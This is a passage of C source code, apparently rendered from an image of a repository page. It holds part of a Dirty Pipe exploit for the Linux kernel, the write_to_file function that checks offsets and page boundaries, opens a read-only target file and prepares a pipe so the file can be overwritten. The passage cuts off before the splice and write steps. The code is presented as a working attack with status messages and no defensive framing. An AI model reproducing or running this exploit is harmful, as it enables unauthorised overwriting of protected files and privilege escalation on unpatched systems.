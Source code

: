 ```c

int write_to_file(const char *path, loff_t offset, const char *data)
{
    printf("[Dirty Pipe] Initiating write to '%s'...\n", path);

    const size_t data_size = strlen(data);
    printf("[Dirty Pipe] Data size to write: %zu bytes\n", data_size);

    long page_size = sysconf(_SC_PAGESIZE);

    if (page_size == -1) {
        perror("[Dirty Pipe] Error: Failed to get page size");
        exit(EXIT_FAILURE);
    }

    if (offset % page_size == 0) {
        fprintf(stderr, "[Dirty Pipe] Error: Writing cannot start at a page boundary.\n");
        exit(EXIT_FAILURE);
    }

    const loff_t next_page = (offset | (PAGE_SIZE - 1)) + 1;
    const loff_t end_offset = offset + (loff_t)data_size;

    // Ensure we're not writing across a page boundary.
    if (end_offset > next_page) {
		fprintf(stderr, "[Dirty Pipe] Error: Writing cannot cross a page boundary.\n");
		return EXIT_FAILURE;
	}

	// Open the file for reading.
	const int fd = open(path, O_RDONLY);
	if (fd < 0) {
		perror("[Dirty Pipe] Error: Failed to open the file");
		return EXIT_FAILURE;
	}
    printf("[Dirty Pipe] File '%s' opened successfully for reading.\n", path);

	// Get file statistics.
	struct stat st;
	if (fstat(fd, &st)) {
		perror("[Dirty Pipe] Error: Failed to retrieve file stats");
		return EXIT_FAILURE;
	}

    // Check if the offset is inside the file.
	if (offset > st.st_size) {
		fprintf(stderr, "[Dirty Pipe] Error: Specified offset is beyond the file size.\n");
		return EXIT_FAILURE;
	}

    // Ensure writing won't enlarge the file.
	if (end_offset > st.st_size) {
		fprintf(stderr, "[Dirty Pipe] Error: Writing will enlarge the file, which is not allowed.\n");
		return EXIT_FAILURE;
	}

    // Create a pipe for data transfer.
	int p[2];
	prepare_pipe(p);

    // Adjust the offset by decreasing it.
	--offset;
```